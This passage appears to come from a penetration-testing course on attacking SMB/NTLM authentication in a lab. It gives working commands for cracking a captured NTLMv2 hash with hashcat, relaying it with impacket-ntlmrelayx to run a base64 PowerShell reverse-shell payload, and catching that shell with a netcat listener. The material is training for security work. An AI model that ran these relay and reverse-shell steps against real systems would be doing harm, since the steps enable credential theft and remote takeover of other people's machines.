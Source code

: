 These captured credentials can be cracked using [hashcat](https://hashcat.net/hashcat/) or relayed to a remote host to complete the authentication and impersonate the user.

All saved Hashes are located in Responder's logs directory (`/usr/share/responder/logs/`). We can copy the hash to a file and attempt to crack it using the hashcat module 5600.

{% hint style="warning" %}
Note: If you notice multiples hashes for one account this is because NTLMv2 utilizes both a client-side and server-side challenge that is randomized for each interaction. This makes it so the resulting hashes that are sent are salted with a randomized string of numbers. This is why the hashes don't match but still represent the same password.
{% endhint %}

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```
{% endcode %}

The NTLMv2 hash was cracked. The password is `P@ssword`. If we cannot crack the hash, we can potentially relay the captured hash to another machine using [impacket-ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) or Responder [MultiRelay.py](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py). Let us see an example using `impacket-ntlmrelayx`.

First, we need to set SMB to `OFF` in our responder configuration file (`/etc/responder/Responder.conf`).

```shell-session
mrroboteLiot@htb[/htb]$ cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```

Then we execute `impacket-ntlmrelayx` with the option `--no-http-server`, `-smb2support`, and the target machine with the option `-t`. By default, `impacket-ntlmrelayx` will dump the SAM database, but we can execute commands by adding the option `-c`.

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```
{% endcode %}

We can create a PowerShell reverse shell using [https://www.revshells.com/](https://www.revshells.com/), set our machine IP address, port, and the option Powershell #3 (Base64).

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e JA..kA'
```
{% endcode %}

Once the victim authenticates to our server, we poison the response and make it execute our command to obtain a reverse shell.

```shell-session
mrroboteLiot@htb[/htb]$ nc -lvnp 9001
```
